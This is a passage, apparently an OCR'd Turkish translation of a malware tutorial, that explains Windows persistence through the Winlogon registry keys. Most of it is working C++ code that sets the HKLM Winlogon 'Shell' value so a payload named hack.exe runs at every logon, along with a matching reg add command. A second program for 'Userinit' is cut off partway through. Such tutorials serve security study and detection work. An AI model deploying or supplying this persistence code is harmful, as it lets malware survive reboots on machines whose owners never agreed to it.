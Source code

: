 `Shell` kayıt defteri anahtarına yapılan değişiklikler, Windows oturumu açıldığında `explorer.exe` ve `hack.exe` dosyalarının çalıştırılmasına neden olacaktır.   

Bu işlem aşağıdaki komut dosyası kullanılarak hemen gerçekleştirilebilir:   

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  // const char* sh = "explorer.exe,
  // Z:\\2022-06-12-malware-pers-7\\hack.exe";
  const char* sh = "explorer.exe,hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" 
    // /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, REG_SZ, 
    (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Benzer şekilde `Userinit` için de aynı durum geçerlidir.    

Bu kayıt defteri anahtarı kötü amaçlı bir uygulama içerdiğinde, Windows oturumu açıldığında `userinit.exe` ve `hack.exe` dosyaları çalıştırılacaktır:   

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // userinit
  const char* ui = "C:\\Windows\\System32\\userinit.exe,
```